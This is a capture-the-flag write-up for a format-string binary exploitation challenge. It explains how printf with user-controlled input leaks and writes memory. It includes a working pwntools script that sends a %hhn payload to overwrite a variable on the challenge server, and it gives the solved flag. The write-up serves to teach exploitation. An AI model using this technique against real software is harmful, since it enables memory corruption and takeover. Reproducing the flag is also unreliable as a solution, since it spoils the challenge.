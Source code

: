 # Format

Category: Binary Exploitation, Format String
Created: Nov 8, 2020 12:22 PM
Points: 300
Solved: Yes
Subjective Difficulty: 🔥🔥🔥

# WriteUp:

## 🔎 Research:

We are given a program that basically prints out our given input.

## 📝 Vulnerability Description:

The `printf` function accepts format specifier to print out user input. When printing user input without format specifiers, such as `printf(user_controlled_input)` , the user_controlled_input can contain format specifiers, which will leak the contents of memory where the arguments for the format specifier would be stored, e.g. `rsi, rdx, rcx, r8, r9, <stack_memory>...` . (see [Calling Conventions](https://www.notion.so/Calling-Conventions-9793ca23c0674d4089fcb2e1b468f778)).

## 🧠 Exploit Development:

The `%n` specifier writes how much characters are already written inclusive filled format specifiers:

```c
printf("%p%n", 0x1234567812345678, num); // %n would write 0x08 to num
```

When we want to write a single char to an address we can use the  `%hhn` specifier. Here are the specifiers all listed:

[printf](http://www.cplusplus.com/reference/cstdio/printf/)

So this format string would write a char  to `num_addr` by using the format specifier `%hhn` (hh=char)

```python
num_addr = 0x404080
payload = b"%hu%hu%u%p"+b"%u"+b"%p%p"+b"%p%hhnAA"+p64(num_addr)
```

We can prove that that actually overwrites the lowest bit of `num` with `0x42` :

Before overwriting:

![Format%202831b7f5178f459c861f4eb8e42cbfe9/before_overwriting.png](Format%202831b7f5178f459c861f4eb8e42cbfe9/before_overwriting.png)

After overwriting:

![Format%202831b7f5178f459c861f4eb8e42cbfe9/after_overwriting.png](Format%202831b7f5178f459c861f4eb8e42cbfe9/after_overwriting.png)

## 🔐 Exploit Programm:

```python
from pwn import *

num_addr = 0x404080

p = remote("challenges.ctfd.io", 30266)

pause()

payload = b"%hu%hu%u%p"+b"%u"+b"%p%p"+b"%p%hhnAA"+p64(num_addr) 

print(str(payload))

p.recvline() # Give me some text
p.sendline(payload)
r = p.recvline()
print(str(r))
print(p.recvall())
```

## 💥 Run Exploit:

![Format%202831b7f5178f459c861f4eb8e42cbfe9/successfull_exploit.png](Format%202831b7f5178f459c861f4eb8e42cbfe9/successfull_exploit.png)

**FLAG:  nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}**

## 🗄️ Summary / Difficulties:

This was a basic Format string exploitation challenge. 

## 🗃️ Further References:

- [Format Strings Exploitation](https://www.notion.so/Format-Strings-Exploitation-73dde030233e43d5a9fff305aa2abf35)
- [Calling Conventions](https://www.notion.so/Calling-Conventions-9793ca23c0674d4089fcb2e1b468f778)

## 🔨 Used Tools:

- [Pwndbg](https://www.notion.so/Pwndbg-2c0c6540dc5444559bb84545f6dbbd48)

---

# Notes:

-